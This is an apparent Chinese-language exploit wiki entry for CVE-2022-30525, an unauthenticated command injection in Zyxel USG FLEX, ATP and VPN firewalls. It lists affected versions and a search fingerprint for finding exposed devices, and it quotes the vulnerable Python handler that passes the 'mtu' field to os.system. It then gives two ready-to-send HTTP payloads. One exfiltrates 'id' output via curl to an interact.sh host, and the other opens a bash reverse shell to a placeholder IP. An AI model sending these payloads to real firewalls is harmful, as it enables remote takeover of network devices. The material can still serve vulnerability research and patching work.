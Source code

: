 # Zyxel USG FLEX handler 远程命令执行漏洞 CVE-2022-30525

## 漏洞描述

Rapid7 发现并报告了一个漏洞，该漏洞影响支持零接触配置 (ZTP) 的 Zyxel 防火墙，其中包括 ATP 系列、VPN 系列和 USG FLEX 系列（包括 USG20-VPN 和 USG20W-VPN）。该漏洞标识为 CVE-2022-30525，允许未经身份验证的远程攻击者以nobody受影响设备上的用户身份执行任意代码。

## 漏洞影响

<a-checkbox checked>USG FLEX 100、100W、200、500、700  < ZLD5.00 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>USG20-VPN、USG20W-VPN	 < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

<a-checkbox checked>ATP 100、200、500、700、800  < ZLD5.10 - ZLD5.21 补丁 1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="USG FLEX" </a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1652439754909-48eee255-7036-44e3-b6e1-6ae32e1ddc9f.png)

出现漏洞的文件为  lib_wan_settings.py 下的 setWanPortSt 方法

```java
def setWanPortSt(req):

    reply = {}
    vlan_tagged = ''
    logging.info(req)
    port = req["port"].strip()

    vlanid = req["vlanid"]
    proto = req["proto"]
    data = req["data"]
    vlan_tagged = req["vlan_tagged"]
    
    cmdLine = ''
    GUIportst = {}
    
    extname = findextname(port)

    #TODO: subprocess method
    try:
        if vlan_tagged == '1':
            if vlanid == '':
                vlanid == '0'

        if proto == "dhcp":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 11 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 1 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            if "option60" in data:
                cmdLine += ' ' + data['option60']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "static":
            if 'mtu' not in req:
                req['mtu'] = '1500'
            prefix_length = netmask_to_cidr(data['netmask'])
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 12 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 2 '
            #extname = findextname(port)
            cmdLine += extname + ' ' + port.lower() + ' ' + data['ipaddr'] + ' ' + str(prefix_length) + ' ' + data['gateway'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' ' + data['firstDnsServer']
            if 'secondDnsServer' in data:
                cmdLine += ' ' + data['secondDnsServer']
            cmdLine += ' >/dev/null 2>&1'
        elif proto == "pppoe":
            if vlan_tagged == '1':
                cmdLine = '/usr/sbin/sdwan_iface_ipc 13 '
            else:
                cmdLine = '/usr/sbin/sdwan_iface_ipc 3 '
            #extname = findextname(port)

            if 'auth_type' not in data:
                data['auth_type'] = 'chap-pap'
            if 'mtu' not in req:
                req['mtu'] = '1492'
            if 'ipaddr' not in data:
                data['ipaddr'] = '0.0.0.0'
            if 'gateway' not in data:
                data['gateway'] = '0.0.0.0'
            if 'firstDnsServer' not in data:
                data['firstDnsServer'] = '0.0.0.0'

            cmdLine += extname + ' ' + port.lower() + ' ' + data['username'] + ' ' + data['password'] \
                + ' ' + data['auth_type'] \
                + ' ' + data['ipaddr'] + ' ' + data['gateway'] \
                + ' ' + data['firstDnsServer'] + ' ' + req['mtu']
            if vlan_tagged == '1':
                cmdLine += ' ' + vlanid
            cmdLine += ' >/dev/null 2>&1'
            
        logging.info("cmdLine = %s" % cmdLine)
        with open("/tmp/local_gui_write_flag", "w") as fout:
            fout.write("1");

        response = os.system(cmdLine) 
        logging.info(response)
        if response != 256:
            logging.info("cmd thread return error")
            reply = {"error": 500}
        else:
            logging.info("cmd success!!")
            reply["stdout"] = [{}]
            reply["stderr"] =""
            with open(WAN_PORT_LAST_CHANGED, "w") as fout:
                fout.write(port)
            if not os.path.exists(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD):
                reply = {"error": 500, "exception": "Cannot find data2cloud folder!"}
            with open(ztpinclude.PATH_WAN_MODIFIED_TO_CLOUD + 'local_wan_modified', 'a+') as fout:
                fout.write(port + ' ')
            
    except Exception as e:
        reply = {"error": 500, "exception": e}
   
    return reply
```

从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行

![img](/assets/PeiQi-Wiki/img/1652442517990-2f1e198d-0abd-46a5-bc74-e56da3ae6ccb.png)

验证POC

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";curl `id`.c9y7h342vtc00002dwxggr9tukwyyyyyj.interact.sh;","data":"hi"}
```

![img](/assets/PeiQi-Wiki/img/1652439825625-87592d2f-85fb-45ae-8148-d9be83dd654a.png)

反弹Shell

```java
POST /ztp/cgi-bin/handler HTTP/1.1
Host: 
Content-Type: application/json

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```

![img](/assets/PeiQi-Wiki/img/1652440046272-4e76d5be-0f5a-4f91-ae4a-043a9e6835a6.png)